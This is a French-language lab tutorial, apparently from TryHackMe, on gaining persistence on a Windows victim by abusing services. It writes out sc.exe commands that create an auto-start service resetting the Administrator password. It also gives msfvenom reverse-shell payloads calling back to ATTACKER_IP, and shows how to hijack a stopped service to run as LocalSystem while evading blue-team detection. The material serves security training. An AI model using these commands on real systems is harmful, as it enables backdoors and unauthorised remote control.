 Les services Windows offrent un excellent moyen d'établir la persistance puisqu'ils peuvent être configurés pour s'exécuter en arrière-plan à chaque démarrage de la machine victime. Si nous pouvons exploiter n'importe quel service pour exécuter quelque chose à notre place, nous pouvons reprendre le contrôle de la machine victime à chaque démarrage.

Un service est essentiellement un exécutable qui s'exécute en arrière-plan. Lors de la configuration d'un service, vous définissez quel exécutable sera utilisé et sélectionnez si le service s'exécutera automatiquement au démarrage de la machine ou s'il doit être démarré manuellement.

Il existe deux manières principales d'abuser des services pour établir la persistance : soit créer un nouveau service, soit modifier un service existant pour exécuter notre charge utile.

Création de services de porte dérobée

Nous pouvons créer et démarrer un service nommé « THMservice » en utilisant les commandes suivantes :

```
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```

Remarque : Il doit y avoir un espace après chaque signe égal pour que la commande fonctionne.

La commande "net user" sera exécutée au démarrage du service, réinitialisant le mot de passe de l'administrateur sur `Passwd123`. Remarquez comment le service a été configuré pour démarrer automatiquement (start= auto), afin qu'il s'exécute sans nécessiter l'intervention de l'utilisateur.

Réinitialiser le mot de passe d'un utilisateur fonctionne assez bien, mais on peut également créer un shell inversé avec msfvenom et l'associer au service créé. Notez cependant que les exécutables de service sont uniques car ils doivent implémenter un protocole particulier pour être gérés par le système. Si vous souhaitez créer un exécutable compatible avec les services Windows, vous pouvez utiliser le `exe-service`format dans msfvenom :

Boîte d'attaque

```
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

Vous pouvez ensuite copier l'exécutable sur votre système cible, dire `C:\Windows`et y pointer le binPath du service :

```
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

Cela devrait créer une connexion avec la machine de votre attaquant.


Modification des services existants

Bien que la création de nouveaux services pour la persistance fonctionne plutôt bien, l'équipe bleue peut surveiller la création de nouveaux services sur le réseau. Nous souhaiterons peut-être réutiliser un service existant au lieu d'en créer un pour éviter toute détection. Habituellement, tout service désactivé sera un bon candidat, car il pourrait être modifié sans que l'utilisateur ne s'en aperçoive.

Vous pouvez obtenir une liste des services disponibles à l'aide de la commande suivante :

Invite de commande

```
C:\> sc.exe query state=all
SERVICE_NAME: THMService1
DISPLAY_NAME: THMService1
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Vous devriez pouvoir trouver un service arrêté appelé THMService3. Pour interroger la configuration du service, vous pouvez utiliser la commande suivante :

Invite de commande

```
C:\> sc.exe qc THMService3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2 AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\THMService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMService3
        DEPENDENCIES       :
        SERVICE_START_NAME : NT AUTHORITY\Local Service
```

Il y a trois choses qui nous intéressent lorsque nous utilisons un service à des fins de persistance :

-   L'exécutable ( BINARY_PATH_NAME ) doit pointer vers notre charge utile.
-   Le service START_TYPE doit être automatique afin que la charge utile s'exécute sans interaction de l'utilisateur.
-   Le SERVICE_START_NAME , qui est le compte sous lequel le service sera exécuté, doit de préférence être défini sur LocalSystem pour obtenir les privilèges SYSTEM.

Commençons par créer un nouveau reverse shell avec msfvenom :

Boîte d'attaque

```
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

Pour reconfigurer les paramètres "THMservice3", on peut utiliser la commande suivante :

Invite de commande

```
C:\> sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

Vous pouvez ensuite interroger à nouveau la configuration du service pour vérifier si tout s'est déroulé comme prévu :

Invite de commande

```
C:\> sc.exe qc THMservice3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

